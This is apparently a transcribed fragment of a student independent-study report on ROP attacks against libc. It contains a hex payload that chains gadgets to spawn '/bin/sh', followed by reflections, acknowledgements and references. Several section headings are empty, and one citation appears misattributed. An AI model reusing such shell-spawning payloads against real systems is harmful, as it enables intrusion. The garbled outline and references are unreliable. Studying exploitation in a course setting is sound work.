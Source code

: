\documentclass[11pt]{amsart}
\begin{document}
Overwrote libc memory address
	accompanying issues
	libc paper
	Script
\begin{verbatim}
3e68 a6f7 ff7f 076f a5f7 ff7f 0b0b 0b0b 
1ce1 ffff ff7f 306f a5f7 ff7f 4f27 a8f7 
ff7f bd9d a9f7 ff7f 38e1 ffff ff7f 706f 
a5f7 ff7f 30e1 ffff ff7f 34e1 ffff ff7f 
ffc7 abf7 ff7f 38e1 ffff ff7f adfb cade 
2f62 696e 2f73 6800
\end{verbatim}
As you can see this attack is even longer than the previous version!  From this I found out a few things, most importantly that as the memory address space grows so do ROP style attacks will grow in physical byte size.  This will make future attacks more difficult since many overflowable fields tend to be on the smaller size, i.e. most password fields are not 128 characters long.
\subsection*{Conclusions}
ASSUMPTIONS
Setup
Memory address size
Script automation
Other thoughts
\section*{Summary}
I learned as much about ROP attacks as I inteded too, as shown above, but I also learned about experiment design and execution. While I had previously learned about assumptions and setup in Elementary and Middle School science classes, I certainly got a refresher course as I went through this Independent Study. I also learned about getting a system setup in an environment that you do not control every aspect off, another useful skill as I move on in my professional life.
I would like to thank Professor Johnathan Michael Smith for being my advisor on this Independent Study and chatting with me and encouraging me as I went about this process.

\begin{thebibliography}{1}

  Hovav Shacham∗,
  \emph{The Geometry of Innocent Flesh on the Bone: Return-into-libc without Function Calls (on the x86)}.
  2007.

  Aleph One,
  \emph{The Inside Story on Shared Libraries and Dynamic Loading}.
  Scientific Programming, September/October.,
  2001.

\end{thebibliography}
\end{document}
